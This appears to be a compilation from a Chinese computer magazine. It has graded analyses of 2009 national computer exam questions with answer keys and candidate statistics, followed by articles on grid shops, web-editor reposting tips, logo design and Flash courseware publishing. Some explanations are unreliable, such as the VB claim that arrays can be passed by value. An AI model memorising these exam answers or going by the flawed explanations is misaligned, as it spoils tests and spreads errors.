> 【试题分析】IIF 函数根据判断条件是否满足，返回表达式 1 或表达式 2 的值。在这里，判断条件 Y<4 是不成立的，所以返回第二个表达式中的值，是“女”，选项 A。

根据统计数据，选择 B 的考生很少（11.2%），说明大家对汉字字符串的判断大多是准确的，但对 IIF 函数理解不够，有 24.7% 的考生选择了 D，进一步表明不是很理解 IIF 函数。

## 二级 VFP 选择题第 28 题：

在 Visual FoxPro 中，每一个工作区中最多能打开数据库表的数量是

- A) 1个 B) 2个
- C) 任意个，根据内存资源而确定
- D) 35535个

考察知识点：有48.3%的同学选择了正确选项 A，而选择 C 和 D 的各有19%和29.2%，在总分低分组中，选择 C 和 D 的比率更高。这道题考查考生对工作区的理解，属基本知识。

> 【试题分析】FoxPro 中沿用工作区的概念，并规定一个工作区只可以打开一个表。至于工作区数量，最大为 32767，若指定为 0 号工作区，则选择编号最小的可用工作区。本题选择 A。

## 二级 VFP 填空题第 12 题：

在 Visual FoxPro 中，设有一个学生表 STUDENT，其中有学号、姓名、年龄、性别等字段，用户可以用命令 “【 】 年龄 WITH 年龄+1” 将表中所有学生的年龄增加一岁。

考察知识点：这是一道基础题，考查考生对数据库修改（更新）语句的掌握情况。平时做过较多上机作业和有过较好编程实践的考生都能答对。

> 【试题分析】在 Visual FoxPro 中，有两种语句命令可以实现对记录的修改，一个是 SQL 命令 Update，其写法是：Update 表名 set 字段名=表达式；还有一种是 VFP 自己的命令：Replace，其写法是 REPLACE 字段名 WITH 表达式。该题中，已经使用了关键字 WITH，所以应该使用 REPLACE 命令，填空部分应该是：REPLACE ALL。

统计数据：该题平均分得分只有0.55（难度值是0.275），非常低！这道题区分度很高（0.498），表明总分较高的考生的答对率要远远高于总分较低的考生的答对率，是一道好题。

## 二级 VB 选择题第 14 题：

下列叙述中正确的是

- A) MsgBox语句的返回值是一个整数
- B) 执行MsgBox语句并出现信息框后，不用关闭信息框即可执行其他操作
- C) MsgBox语句的第一个参数不能省略
- D) 如果省略MsgBox语句的第三个参数（Title），则信息框的标题为空

考察知识点：这是一道考查 MsgBox 控件的基础题，属于常考知识点，但每次考核的角度会有不同，考生需要好好掌握，确保基础题容易题不丢分。

> 【试题分析】我们依次看各选项。对于选项 A，我们要区分 MsgBox 函数和 MsgBox 语句，当作为函数时，返回一个值，但作为语句就不返回值了。对于选项 B，明显是不正确的，选择该项的考生也很少。对于选项 D，我们需要知道，省略 Title 参数时，信息框的标题为当前窗体的名称，不是空。选项 C 的描述是正确的。

统计数据：45%的考生答对该题，分别有 32.5% 和 16.2% 的考生分别选择了 D 和 B。

## 二级 VB 选择题第 26 题：

以下关于函数过程的叙述中，正确的是

- A) 函数过程形参的类型与函数返回值的类型没有关系
- B) 在函数过程中，过程的返回值可以有多个
- C) 当数组作为函数过程的参数时，既能以传值方式传递，也能以传址方式传递
- D) 如果不指明函数过程参数的类型，则该参数没有数据类型

> 【试题分析】对于函数过程，VB 还是比较灵活的，既能以传值方式传递，也能以传址方式传递（引用）。当使用前者时，必须使用关键字 ByVal，不能省略，若省略了就成为传址方式了。另外，函数过程的返回值只有一个。该题答案为 A。

统计数据：只有21.4%的考生答对该题，有 52.5% 的考生错误选择了 C，该题区分度为 0.329，表明具有很强的区分能力，是一道好题。

## 网络为媒，小格子也有大智慧

你听说过创意集市吗？你见过格子店吗？你相信小小的格子也能赚大钱吗？看到一个个新奇的手工艺品，各种恶搞的小东东，你是否有心动的感觉？网络将所有的这一切汇聚在一起，从创意到销售，从你到我。

## 拥有一个自己的小格子

在商业中心拥有一个自己的小店，卖自己制作的商品，这个想法似乎很疯狂，但其实并不难实现。只要你的商品够创意，只要你的商品够吸引人！当然，你还需要一个平台，疯果网或许可以帮助你。可能你要问了，这么好的地段，要花多少租金才行啊？实际上，通过共同承担租金的方式，在商业中心拥有一个几十平方厘米的小格子每月只需要几百元！
对于建立格子的主人来说，如何保证较高的出租率呢？网络平台能够发挥重要作用。在网上聚集起一群人比在现实世界中容易得多，通过网络平台就实现了较高的出租率。

## 网络平台让创意变成钱

提到格子店，就不能不说说疯果盒子，这是一家较早在北京打出品牌的格子店，通过完善的网络平台——疯果网（http://www.fengguo.com.cn），迅速聚集了人气，短短两年间，已经在北京拥有了近十家店铺。当大家通过网络聚在一起，热情也会更加高涨，实现资源共享，分享成功的经验，最终实现共同富裕的目标。
在疯果网这个平台上，不仅可以租盒子，还可以发布自己的创意，和盒子主们组成创意组共同探讨，甚至还能发布挑战任务、悬赏。在这里可以将激情与创意转化为财富。格子中的商品必须是原创、非量产的作品。所以要想在疯果立足，创意是根本。手绘、针线活、折纸、雕刻、泥塑等都算你的创意作品。如果你认为自己不是一个充满创意的人，也不必担心，大家一起在疯果网上交流创意的过程，就可以寻找自己的灵感。有时别人有了创意，却因为客观条件的限制无法实现，那么通过合作的方式制作创意产品也是一个很好的途径。广西的苏小妙就经常在疯果网发布自己的创意，对自己的作品进行宣传，而没有租格子进行销售，销售则是通过其他形式进行的，并且已经初具品牌效应。

## 格子实体店与淘宝店牵手

有人从网络认识了实体格子店，有人的实体格子店又促进了自己的淘宝店创意品销售。
在西单大悦城，有一家叫品阁的格子店，陈琳正在给自己的格子上货。她现在在品阁租了3个格子，主要卖一些饰品，东西并不是自己原创的，但销售的情况相当不错，每月的净利润有2000多元。她还有自己的淘宝店（http://shop33373856.taobao.com），自从有了自己的格子，淘宝的销售额也有所增加，她还有个愿望，希望在不久的将来开一家属于自己的格子店，在卖自己的商品的同时，也把剩余的格子租出去。

## 小提示：

相对来说，创意作品的制作成本都是比较低的，而且自己的作品自己定价，店家收取25%左右的销售提成，可以说在整个销售过程中还是很自主的。用布缝一个兜子，很可能只值几元钱，而在这个布兜子上画上图案，价格很可能就翻10倍了。同样，在冰棍棒上画画，把这个冰棍棒卖出去，就可以买很多冰棍。通过 Photoshop 完成设计工作，再生产出产品，出现热点事件时迅速推出相关产品，一定热卖。

## 第一桶金：

陈琳在品阁的第一个月，仅仅通过这3个格子就净赚1000多元，其中已经扣除了格子的租金、销售提成、商品成本等，同时网店的销售额也有小幅提升，总共相当于有将近1500元的收入。

在快乐中生活，在创意中寻找财富。你打算开始行动了吗？

(北京/林锐)

## 门槛最低的IT白领：做“网编”必听六路

网络编辑第二课开讲！

## 一名好搬运工应该具备的素质

现在很多互联网公司招聘网络编辑，都非常青睐具有相关行业背景的人。因为这些人对内容的把握要更准确，对于用户的需求更了解。所以作为新人的你，如果没有这方面的背景，那就需要经常关注，多多了解。对相关行业熟悉的同志也不要松懈，因为现在社会进步很快，不断地会有新技术和新信息出现，所以一定要养成每天观看行业新闻、关注行业动态、行业网站的好习惯。

## 熟悉行业信息

推荐方法：RSS订阅重点网站新闻

## 关注竞争对手

推荐方法：用Gmail等订阅企业快讯

## 多多接触厂商

推荐方法：多跟公关公司联系，勇于自荐，参加发布会

## 至少加5个QQ群

推荐方法：升级QQ会员

## 搬运工需要准备的工具

- 1. Windows记事本
- 2. PhotoShop等图片处理软件
- 3. Dreamweaver等网页制作软件

## 关于考核

通常对于新进的网编，都是以每天转载的文章数作为考核，也有一些网站会与网站流量（也就是常说的PV）挂钩。但是不管考核是怎么样的，对于网站整体来说，流量肯定是非常重要。所以如果你想成为一名优秀的网编，就一定要有流量意识。

## 搬运技巧

上面说了这么多，现在进入最核心的部分：搬运工作的步骤与技巧。

## 内容来源：博客

切忌只盯着那几个固定的目标网站，因为能成为目标的大网站内容大多被转烂了，再转就做不出特色了。所以建议多关注那些小网站甚至是个人博客，这些个人作者式的站点中，经常会产出一些非常好的内容。当然，由于个人博客的数量是非常庞大的，这个就需要我们经常地去寻找和挖掘。

## 内容筛选：以点击量为依据

每个网站，都会有自己的内容选取标准。所以大家一定要以这个为大前提，在此基础上，研究自己负责频道的用户特点，去分析他们喜欢什么样的内容，然后有针对性地转载。最简单的方法，查看以往文章的点击量，那些点击量高和点击量低的文章，会告诉你很多秘密的。

## 改标题：为搜索优化

这是文章转载过来后，要做的第一件事。第一步，为了页面美观，有些网站会限制标题字数，比如正标题必须达到16个字，副标题不能超过9个字等。第二步，为了配合搜索引擎优化（即SEO）修改标题。因为标题重复，百度或者谷歌这类搜索引擎就不会将我们的文章排在结果页的前面，而改了更加吸引人的标题，那至少从标题上看，搜索引擎就会认为我们的内容是有差异化的，用户搜索时，我们就会比不改时，取得很好的排名。下面举几个例子：

## 关于标题的笑话：

一天，一家小影院放映一部片子，广告写道《七个男人和一个女人的故事》并有说明：一美女莫名晕倒，七个男人强行拖入森林……等待美女的是什么？……众人都觉得很有吸引力，遂买票入场，等到电影放映时，大屏幕出现《白雪公主》，众人气急败坏地走了。
第二天，众人再次路过小影院，见广告有所变化，广告写道《七个男人和一个女人的故事》并有说明：一个如花美女与七个男人的数天惊涛骇浪的销魂（绝非《白雪公主》）。
众人这次觉得比上次更有吸引力，而且说明不是白雪公主，遂又买票入场。
结果大屏幕出现：《八仙过海》

## 重视导语

简介和导读的作用，是为了让用户更快地了解文章要表达的内容，为用户节省时间。好的简介和导读，也会起到促进网友阅读的作用。通常来说，把文章的第一段或是开头语作为导读就可以。

## 添加关键字、TAG

关键字和TAG的使用主要是配合搜索引擎优化。关键字或TAG的数量控制在5个以内为宜，这些关键字应该是与文章有关的词汇，同时应该符合用户的搜索习惯。比如说一篇讲笔记本的文章，那关键字可以用“笔记本”，而不可以用“本本”，因为一般用户，不会搜索本本这个词。再比如说，讲笔记本的文章直接用笔记本作为关键字就不是很适合，因为这个词太泛，不能说明文章具体是关于笔记本哪方面的，正确的做法是用文章中提到的笔记本的具体品牌、型号等信息作为关键字。

## 过滤广告

很多网站在内容中，喜欢加一些自己的链接，或是厂商的软性广告等。所以我们在转载过来时，直接改代码，去掉超级链接。最简单的方法就是将内容复制到Windows自带的记事本中，然后再复制回来，这时候链接就自动去掉了。至于广告，就需要大家浏览一下全文，然后用你的火眼金睛将它揪出来，然后消灭掉了。

## 内容重排

因为不同网站的HTML编码方式可能会有差异，所以复制过来的内容经验会出现排版错误的情况。所以通常这时候我们就需要重新排版，相对于平面来说，网站对排版的要求很低，大概能做到以下五点就OK。
①每段首行空两格。
②段与段之间空一行。
③正确使用标点符号。
比如文章里一定要用全角符号，不能是半角符号，很多朋友的文章里经常把逗号和句号打成“,”“.”。具体大家可以上网搜索关键字“标点符号的用法”，找相关的资料学习一下。
④分段要有小标题，并加粗。
如果一篇文章讲了若干个问题，那不同方面的内容，要有小标题，同时小标题加粗。就像本文这样。
⑤不要随便自定义字号、字体与颜色。
任何一个网站、论坛都有默认的字号、字体和颜色，而这个标准基本上也是经过求证，符合用户阅读体验的，所以轻易不要乱改字号、字体和颜色。
如果线上编辑不方便，大家可以在Dreamweaver等网页编辑软件中处理完成后，再上传。

## 适当分页

适当的分页不仅能增加阅读体验，让用户看长篇文章时更舒服，同时也会增加文章的点击量（翻一页就是一个点击嘛）。如果常上网的朋友就会发现，现在各大网站分页分得越来越厉害，有的甚至几百字就会分一页。不过太短的分页容易引起用户反感。个人认为每两屏分一页比较适宜。换算成纯文字的话，就是2000字左右。

## 头条配图

好的新闻图片，不但会让整个网站看起来非常美观，同时也会增加用户点击欲望，提升文章点击量。可能有的朋友会说了，自己不会处理图片怎么办？其实也没大家想的那么复杂，简单地说，只需要两步，就能将图片做得很漂亮。
第一步，选一张清晰的、唯美的图片。这张图片最好与文章内容有关。然后将图片裁剪成合适的大小。
第二步，在图片上添加文字。这个过程其实是很复杂的，不过这里有一个捷径，就是提前搜集一些高手已经制作好的效果源文件。这样制作的过程就直接省略了，而你要做的工作就是在这些已有效果的基础上，直接添加需要的文字。
关于搬运工的问题，就说这么多。怎么样，是不是发现想做好Ctrl+C、Ctrl+V的工作也不简单呢？对网编来说，这只是基础，是万里长征的第一步。关于其他的技巧，咱们下期见。
（大锅饭）

## 厂商自曝

## 4G移动网络

欧盟8月18日表示，它将投资2500万美元用于研究新一代4G移动网络。这项投资将用于研究LTE先进技术，LTE技术可将移动网络速度提高到现有3G网络速度的100倍。LTE技术将把手机变成功能强大的便携式电脑，无数新用户不管身处何方都将能够使用便携式设备高速接入互联网。这将创造出巨大的商机，给数字经济带来巨大的发展空间。LTE技术还可以更有效地利用无线电频谱，并且能够使用模拟电视转向数字电视后释放出来的频谱，让移动网络从数字优势中获益。

## 平面设计师生存手册：小图标里的大意义

上期我们介绍了VI设计，其中提到VI设计的核心是LOGO(图标)设计。一款设计优良的LOGO，可以令品牌形象如虎添翼，给客户留下鲜明的印象，从而为企业争得一线先机。那么，LOGO的设计，有没有行之有效的方法可以遵循？

## 芝麻开门

CFan: 什么样的LOGO才算是好作品？
业内人士: 什么是好的LOGO，这个不好定义。不过在观察一些成功的LOGO作品时，会发现它们都有一些共同的特点，或者也可以说是它们必然符合的一些重要原则。

- 1. 简单/多样：LOGO所占的面积一般较小，整合过多的元素反而会冲淡效果。元素可以少，但是构成形式、表现手段则要多样化，否则就太单一了。
- 2. 显著：构成LOGO的图形、线条、颜色要清晰可辨。
- 3. 适应：LOGO要应用到多种场合，如海报、信封、网页、名片等，所以设计的LOGO必须能适应各种尺寸。一般来说，细节越少，LOGO缩小时能保持的表现力也就越好。
- 4. 传达：能传达出企业、公司的业务特征。比如航空公司的图标用一个火车头表示，显然不适合。
- 5. 特色鲜明。

## 任务实战

CFan: 上面提到的几大原则，还是有点抽象。LOGO的创作过程中，有没有更具体的一些方法？
业内人士: 平面设计中的构成课程，总结了不少形式法则，如对称平衡、渐变构成、节奏韵律等，对具体的创作很有帮助。当然，LOGO设计需要创造性思维，可以借鉴前人总结的法则但是又不要拘泥于它们。

## 实战1：简单重复也能是艺术——群化构成

平面构成中的重复构成，就是把同一个图形复制成多个，再按一定的规律排列组合在一起。这个被重复的图形即所谓"基本形"，它可以是一个圆点、一条线或一个三角形等简单图形，也可以是从已有图形中切割出来的复杂图形。

群化构成则是一种特殊形式，它也是把基本形复制多个后重复排列，不过它一般是围绕着一个中心点，或者以聚集的方式呈现，而不像一般的重复构成那样向上下左右方向发展。
群化构成非常适合制作LOGO标志。下面我们就在Adobe Illustrator（常简称为AI）中试着模仿制作一个LOGO（本文使用的是CS3版本，其他版本中的操作步骤基本相同，不再一一说明）。Illustrator也是学习平面设计者最好要了解的一款矢量绘图软件（可替代的软件有CorelDraw等），非常适合于制作LOGO，还没有这款软件的朋友，可以从http://www.adobe.com/cn/downloads/下载试用版试用。

- 1. 从新文档开始工作
启动Illustrator，点击“文件→新建”菜单命令调出新建文档窗口，单击展开其中的“高级”，将颜色模式设置为CMYK，其他取默认值，然后点击“确定”创建一个新文档。选择CMYK模式，是为了方便以后LOGO能应用到各种印刷品上（如信封、名片等）。
- 2. 创建基本形
群化构成首先要有一个基本形，方块、文字、线条等等，任意形状都可以作为基本形。这里我们创建一个自己的基本形。按住工具箱中的矩形工具不放，将弹出一个子工具箱，选择其中的椭圆工具（快捷键为L），然后点击上方工具栏左侧第一个下拉按钮，选择黑色作为填充色，接下来在页面中画出一个椭圆图形（见图2）。

按住工具箱中的钢笔工具不放，从弹出子工具箱中选择转换锚点工具（快捷键为Shift+C），用此工具，分别点击一下刚刚画出的椭圆形左右两侧的锚点，会发现椭圆形两侧变成优美的尖角。选择工具箱中的直接选择工具（快捷键为A），拖动椭圆的锚点，可以对图形进行调整，最终得出一个树叶的形状（见图3）。

选中工具箱中的选择工具（快捷键为V）点选树叶图形，按Ctrl+C键复制，再按Ctrl+V键粘贴，然后点选新复制的图形，依次单击工具栏上左侧第一和第二个下拉按钮，将新图形的边线及填充色设置为统一的绿色。

点选新图形，将光标移到边框的各个锚点上时，光标将变成双箭头状，此时按下鼠标左键拖动，可以调整图形的大小。将新图形适当缩小之后，放到第一个图形上，并使用它们右侧对齐。用选择工具同时选中两个图形，按下Ctrl+G键，即可将它们组合为一体了（见图4）。以后如有需要，选择编组的图形，再按Ctrl+Shift+G键，可以快速解组。

## 3. 基本形的群化构成

接下来就是按需要将基本形复制几个，再将它们按一定的规律排列，得到自己想要的LOGO图标即可。如图5所示，是叠加、反射、对称等几种简单的排列。这其中主要的操作是旋转。点选某个图形后，将光标移到方框外侧，光标将变成弯曲的箭头状，此时按住鼠标左键并拖动，即可任意旋转图形了。
另外还要用到的技巧是对齐。有时手工对齐两个图形时不够精确，可以选取所有要对齐的图形后，再点击工具栏上的“对齐”，即可按需要选择自动上、下、左、右对齐等。

图形叠加的时候，有些图形的层次位置不对，这时可右击此图形，选择“排列”，然后就可以选择移动它的层次位置了。

## 实战2：量变到质变——渐变构成

渐变就是一点一点地变化，大自然中随处可见渐变的实例，如水中的涟漪、海螺的生长结构等。渐变构成，是指基本形或骨骼，有规律的循序变动，从而产生节奏感和韵律感。基本形的渐变就是基本形的形状、大小、位置、方向、色彩逐渐变化。下面的实例，是将一条曲线，慢慢改变长度、曲度及方向而形成的设计作品。

## 1. 创建弧线基本形

启动Illustrator，新建一个文档。选择椭圆工具，然后在上方工具栏中，将描边的大小设置为最小值0.25p，并将边线及填充色都设置为黑色。横向画一个细长的椭圆，再使用转换锚点工具分别点击椭圆两侧的锚点，使它的两端变尖。接下来，用直接选择工具（白箭头）拖动椭圆上下两端的锚点，这样一条曲线条就完成了（见图6）。

## 2. 渐变变形

将完成的曲线再复制4份，逐渐拉长变弯，以右侧为中心点旋转排列（见图7）。注意，调整曲线，使用的是直接选择工具，当线条弯度过大时，原有的锚点可能不够使用了，这时我选择添加锚点工具（快捷键为+），在图形边线上点击，以添加新锚点，扩大调整的灵活性。

## 3. 添加背景

现在的LOGO有点单薄，我们再添加一个背景来丰满它。选择椭圆工具，按Shift键不放，配合鼠标画一个正圆形，边线和填充都为蓝色。将前面绘制的曲线变成白色，两者叠加到一起。右击圆形，选择“排列→置于底层”。一个优美的LOGO就制作完成了（见图8）。

## 艺林闲话

构成法则还有很多，如发射构成、比例构成（如黄金比）、变异构成、对称、平衡、对比等等。想要把平面构成知识应用到自己的创作中，一是要深入学习理论知识，另外还要多观摩别人的成功作品。平时可以找一些专业书籍来看，网上也能找到相关资料。比如：

- 平面构成知识
网址： http://www.hudong.com/wiki/平面构成
- 欧美构成类招贴设计
网址： http://tinyurl.com/yhh6jgo
- 经典标志设计作品欣赏
网址： http://tinyurl.com/ylaa9wh

# 教育部考试中心专稿：2009年上半年全国计算机考试官方重难点真题分析（三级数据库篇）

2009下半年的全国计算机等级考试进入倒计时，国家教育部考试中心作为NCRE的主办方，对2009上半年各科考试重点科目的精选真题在本刊连载官方点评。欢迎关注！如果你有任何问题，请发邮件到ncre@cfan.com.cn，我将请考试中心的专家为你做权威解答。

全国计算机等级考试三级数据库技术是一项用于考查数据库应用知识与能力的考试。从2009年上半年的考试数据看，总体情况良好，但也有一些值得注意的问题。有些考生对有一定难度的题目解答得较好，而对一些非常简单的问题却回答错误，直接影响了考试成绩，有的甚至没有达到及格线，非常可惜。

比如：有道题目是“Oracle9i是指Oracle9i数据库，Oracle9i和Oracle9i Developer Suite的完整集成（答案为：Application Server）”，Oracle数据库是一种较典型的数据库产品，对于从事数据库应用工作的人员而言，应该对其具有最基本的了解。目前，数据库产品往往是一个完整的、应用于互联网的、智能化的、协作各种应用的软件基础框架，而Oracle9i即是这样一种集成产品。再如，“面向对象数据库的数据模型中三个最基本的类型和构造器是原子、集合（答案为：元组）”，面向对象数据库的基本知识也是一个数据库专业人员所应该掌握的，其中，对象涉及了对象标识、对象结构、封装、类型层次和继承、复杂对象、操作符重载等重要概念。

下面对2009年上半年三级数据库技术试卷中的部分试题作一简要分析：

### 1.15

在待排序文件已基本有序的前提下，下列排序方法中效率最高的是
A) 起泡排序
B) 直接选择排序
C) 快速排序
D) 归并排序

解答此题的关键是深入理解各种排序方法的基本思想，正确分析各种排序方法在对具有特殊性质的待排序文件进行排序时的具体表现。

起泡排序的过程分为若干趟起泡，每一趟将待排序的记录顺次两两比较，若为逆序则进行交换。第一趟起泡的效果是将关键码值最大的记录交换到了最后的位置，第二趟起泡再将次最大关键码交换到倒数第二个位置……依此类推，排序过程最多进行n-1趟。这里需要注意的是，若某一趟起泡过程中没有发生任何交换，则排序过程结束，不必一定进行n-1趟。所以如果待排序文件已事先基本有序，则排序过程很可能很快就终止。

与起泡排序不同，直接选择排序、快速排序和交换排序都不会在进展的过程中由于文件已排好序而提前终止。不管待排序文件是否已事先基本有序，排序过程中需要进行的趟数都是固定的。

所以本题的答案是A。本题仅有10%的考生回答正确，48%的考生选择了答案B，选择答案C和D的分别是18%和24%。从考试数据看，考生对常用的排序方法掌握得还是不够。

### 1.34

在课程关系COURSE中，增加一门课程：(‘C01’, ‘电子商务’, ‘陈伟钢’) 用关系代数表达式表示为：COURS COURS { (‘C01’, ‘电子商务’, ‘陈伟钢’) }。这是使用扩展关系操作中的
A) 广义投影
B) 聚集
C) 外部并
D) 赋值

本题考查的是扩展关系操作，这是2009年版教材新增的内容。题目要求用关系代数表达式COURS COURS { (‘C01’, ‘电子商务’, ‘陈伟钢’) }来表示“向课程关系COURSE插入一个元组(‘C01’, ‘电子商务’, ‘陈伟钢’)。”在扩展关系操作中，赋值操作可以使插入、删除和更新操作变得很方便。在这一关系代数表达式中，只有一个赋值操作符‘←’是扩展关系操作符。

因此，本题的答案为D。本题有12%的考生选择了正确答案，70%的考生选择了答案C，10%和8%的考生分别选择了答案A和B。

### 1.54

若关系模式R中只包含两个属性，则
A) R肯定属于2NF，但R不一定属于3NF
B) R肯定属于3NF，但R不一定属于BCNF
C) R肯定属于BCNF，但R不一定属于4NF
D) R肯定属于4NF

解答此题的关键是正确理解关系模式各种范式的定义，尤其是4NF的定义。4NF要求对于关系模式中存在的每一个非平凡的多值依赖X→→Y，都有X包含码。当关系模式R中只包含两个属性时，R中不可能存在非平凡的多值依赖，因此也就不可能存在有非平凡的多值依赖X→→Y，而X不包含码的情况，所以R肯定属于4NF。

本题的正确答案是D。该题考查关系模式的各种范式的有关概念，有18%的考生回答正确，42%的考生选择答案B，18%的考生选择答案A，22%的考生选择C。有超过1/3的考生选择了B，表明很多考生对相关的一些概念还不是很清楚。

### 1.60

下列关于数据挖掘的叙述中，哪一条是不正确的？
A) 数据挖掘被认为是知识发现过程中的一个特定步骤
B) 数据挖掘是使用专门的算法从数据中抽取有用的模式
C) 关联规则的发现是数据挖掘的一个目标
D) “可信度”表示规则所代表的事例（元组）占全部事例（元组）的百分比

本题考查的是数据挖掘及其相关的一些概念。数据挖掘是教材第11章的一个重点。在本题中，选项A说明数据挖掘和数据库知识发现（KDD）的关系；选项B指出了数据挖掘的基本概念或基本目的。关联规则挖掘是数据挖掘中主要的任务之一，因此选项C也是正确的。而可信度指的是规则所代表的事例占满足前提条件的事例的百分比，并不是占全部事例的百分比，因此选项D是不正确的。规则所代表的事例占全部事例的百分比指的是支持度，而非可信度。

因此，本题的正确答案是D。该题有27%的考生选择了正确答案，24%的考生选择A，28%的考生选择B，21%的考生选择C。只要较系统地复习，答对此题并不太困难。

# Flash课件发布那些事

果果：上期我们通过实例讲解flash课件导航在实际制作课件的时候一些常见形式。本期接着利用上节的例子进行课件发布方式和技巧的简单讲解（演示地址http://www.022w.net/flash/sort01/sort020/show-52.html，源文件和素材下载地址http://022w.net/soft/sort013/sort014/down-14.html)。制作Flash课件到发布这一步就快大功告成了，这时非常关键，一着不慎，满盘皆输，大家可得多多留心哟。

## 发布篇

发布时要根据实际需要选择好发布类型，Flash发布设置里可选择的发布类型有8种，我们常用的只有3种Flash (.swf)、网页格式 (.html)、Windows放映文件.exe。

做好了课件后，使用“文件→发布设置”或者快捷键“Ctrl+Shift+F12”调出。

## 课件发布为.swf

.swf是Flash的打包的影片格式，没有嵌入播放器程序。发布为.swf方法如下：

1.  用“控制→测试影片”或者快捷键“Ctrl+Enter”命令。课件打开测试窗口同时也生成.swf文件并且源文件处于同一目录下。
2.  用“文件→发布”或者快捷键“Shift+F12”命令，直接在与源文件同目录下得到.swf文件。
3.  用“文件→发布设置”或者快捷键“Ctrl+Shift+F12”命令，在“格式类型”选项中选择“Flash(.swf)”其他采用默认设置即可。如果点选了“使用默认名称”选项，则导出的影片与源文件使用相同的名称。要是需要修改成其他文件名，可以直接更改导出影片的文件名。单击“发布”按钮，然后在“确定”按钮即可导出swf影片并在源文件目录下。

## 课件打包成.exe

用“文件→发布设置”或者快捷键“Ctrl+Shift+F12”命令，在“格式类型”选项中选择“Windows放映文件 (.exe)”其他采用默认设置选项，单击“发布”按钮即可将课件打包成EXE文件。

## 课件发布为.html

在“格式类型”选项中选择“HTML (.html)”同时自动选中“Flash(.swf)”，其他采用默认设置选项，单击“发布”按钮即可将课件发布为网页形式文件。

也就是用电脑浏览器来播放课件，这样要求计算机安装相应版本的Flash插件或者更高版本的Flash插件，不过现在只要能上网在官方网站上很容易安装最新Flash插件，官方网站网址：http://get.adobe.com/flashplayer

## 技巧篇

课件发布常常遇到一些问题，找到原因，轻松解决：

1.  Flash 8做的课件在发布成Windows放映文件.exe时，为什么里面调用的视频文件看不了，而生成swf文件就能看了？
    Flash导入的视频格式文件必须是flv格式，别着急，现在的flash CS3已经解决了这个bug，可以用Flash CS3打开文件，生成一下Windows放映文件.exe就可以了。
2.  生成的exe文件，测试调用视频也没问题，可以把软件和视频拷到其他电脑，控制条怎么没了？
    很简单，文件没拷全，有一个文件没有注意到，ClearOverAll.swf这样的swf文件，前面的文件名不一定是ClearOverAll，是由调用视频文件时选取的播放条决定的，把它一起考过去就搞定了。

掌握了以下这些小技巧，你将如虎添翼：

1.  swf文件可以使用Flash Player播放，但是，相对应的swf文件需要相对应的Flash Player版本支持。如果使用Flash 8.0制作课件，而需要演示课件的电脑上只有Flash 6.0或者Flash 7.0的播放器，这时就需要升级Flash插件了。最后导出的swf文件就只能够用Flash Player 8播放。Flash Player是向下兼容的。Flash Player 8可以在Flash 8.0安装目录下的C:\Program Files\Macromedia\Flash 8\Players目录下找到，文件名是“SAFlashPlayer.exe”，文件大小是1.5MB。
2.  只有swf格式的课件，怎么创建exe的可执行文件呢？假如当前没有源文件，只有swf格式的课件，也可以先用Flash Player打开swf课件，然后单击“文件→创建播放器”命令，在弹出的对话框录入文件名，即可将swf影片打包成exe文件了。将swf文件打包成exe文件后，不论最终播放课件的计算机中是否安装了Flash Player，都可以播放课件了。实际上，将swf影片打包成exe，就是将Flash Player与swf文件打包在一起。将课件打包成的exe文件大小其实就是Flash Player的文件大小和原来的swf文件大小之和。
3.  当Flash课件有外部调用音频或者视频时候，可以先按照.exe的打包方式将主文件打包，然后再利用WinRAR进行打包，整体做成一个安装文件的形式，这样在文件大小和整体零散的文件也整合起来了。

(天津/谢文柱)

# 平面设计师生存手册：寻找最佳的起点

平面设计师是一个“低进高出”的行业。低进，是指它的门槛很低，无论男女老幼，不限学历文凭，只要会基本的电脑操作，都是潜在的人选。高出，则是指一旦入行后，不管是打工或是自己创业，首先要对这一行的通用知识深入了解，最重要的，平面设计也是一门艺术，需要长时间的学习、实践，以积聚经验和灵感。

## 平面设计师生存手册路线图

1.  必要的电脑基础操作，CFan的读者大部分已具备；
2.  了解平面设计的不同种类，学习必备的软件（Photoshop）技能；
3.  根据市场和兴趣选择最佳切入点；
4.  找个对口的单位去实习；
5.  带上实战作品去应聘；
6.  继续教育（边工作边学习）；
7.  自我突破，模板操作中凸显的艺术个性。

本系列将在每一个步骤给大家提供参考。比如学习基础软件操作，在实习单位注意学习哪些知识，如何准备自己的应聘作品等等。

## 芝麻开门

CFan：在生活中，提起平面设计，一般最先想到的会是各种印刷品。那么平面设计到底是什么？分哪些类别？
业内人士：实际平面设计是一个很难界定的概念，我个人认为，在二维（平面）介质上通过各种视觉元素传达出某种设想和信息的作品，都可以称之为平面设计。平面设计一词源自英语Graphis design，直译意为图形设计，可以看出图形元素在其中的重要位置。

平面设计的划分没有统一的标准，按最后成品的性质，大致可分为以下类型：
编辑设计：主要从事杂志、报刊的版面设计，尤其是报刊每期的专题报道，平面设计尤其重要。报刊也是平面设计职业岗位需求最多的。
企业设计：企业设计中最重要的工作是CI设计，CI即企业形象识别系统，它以企业定位或企业经营理念为核心，使得企业对内对外都有一个系统、统一的企业形象展示。CI设计一般会委托给第三方专业设计公司来做，有些企业也会有自己的设计部门。
书籍设计：出版业是平面设计师的一个非常大的客户来源。书籍设计包括封面装帧和内文两大部分，通常分别由不同的设计师来完成，有时也会由一人担当。
广告设计：广告作品的形式很多，如宣传单、宣传册、海报、广告牌等。广告公司，一般会需要不少平面设计师。
其他还有包装设计、唱片设计、字体设计等。另外随着计算机及网络的普及，又衍生出许多新的门类，如网页设计、互动设计等。

> CFan：平面设计师薪酬状况如何？
业内人士：平面设计师的职位，有高、中、低之分，不过各家公司的职位名称会有所不同：管理层，有设计总监、高级设计师等；设计层，有设计师、美术编辑等；辅助层，有设计助理等；入门层，有设计助理、实习生等。以下月薪表是一个平均值，各省市、各公司会不少差别：
> 管理层：5000元左右
> 设计层：2000 ~ 3000元
> 辅助层：1000 ~ 2000元
> 入门层：800元以下（一些实习生常常没有报酬）

## 任务实战

CFan：对于一个想要进入平面设计行业的人士来说，从哪里入门比较好呢？
业内人士：对于平面设计师来说，Photoshop是一款必知必会的软件。所以想入行的朋友，先掌握Photoshop的使用是不会有错的。随着学习的深入，以及对平面设计这一行的更多了解，可以再进一步选择学习更多其他专业软件。

## 实战：“凿壁偷光”创建超酷LOGO

许多朋友担心自己的美术功底不够，怕做不好平面设计。实际上每个人都不是万能的，只要你有着很好的视觉悟性，有些力所不逮的地方，可以借他人的素材来弥补。下面的实例，假设为爱好者网站游戏频道制作一个LOGO，其中图形部分则是“凿壁偷光”，借用了游戏中的漫画人物。

### 借别人的素材，画自己的人物

启动Photoshop（本文使用的是CS3版），点击“文件→打开”，打开事先准备好的游戏漫画人物素材图（本例图片：http://work.newhua.com/cfan/200918/gamegirl.jpg）。

